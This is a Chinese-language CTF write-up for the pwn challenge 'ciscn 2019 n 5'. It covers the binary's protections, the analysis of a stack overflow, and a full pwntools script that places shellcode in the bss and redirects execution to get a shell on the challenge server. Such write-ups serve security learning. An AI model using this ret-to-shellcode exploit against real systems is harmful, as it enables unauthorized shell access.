 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 5
date: 2022-3-22 16:17:03
permalink: /pages/2e1547494524d18a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

主函数及函数表如下

![ciscn_2019_n_5_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_n_5_1.png)

## 思路分析

1. 目前信息：
   - main函数内明显的栈溢出漏洞
   - No PIE
   - 有RWX权限
1. 补充：
   - name变量在bss段长度为0x64字节如下

![ciscn_2019_n_5_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_n_5_2.png)

3. 思路：
   - 可栈溢出，有RWX权限，考虑在name变量处写入shellcode，返回溢出劫持返回地址到该处以获得shell

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
io = remote('node4.buuoj.cn', 28134)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
bss_name = 0x601080
shellcode = asm(shellcraft.sh())
payload = flat([shellcode])
io.sendlineafter(' name\n', payload)
payload = flat(['a'*padding, bss_name])
io.sendlineafter(' to me?\n', payload)
io.interactive()
```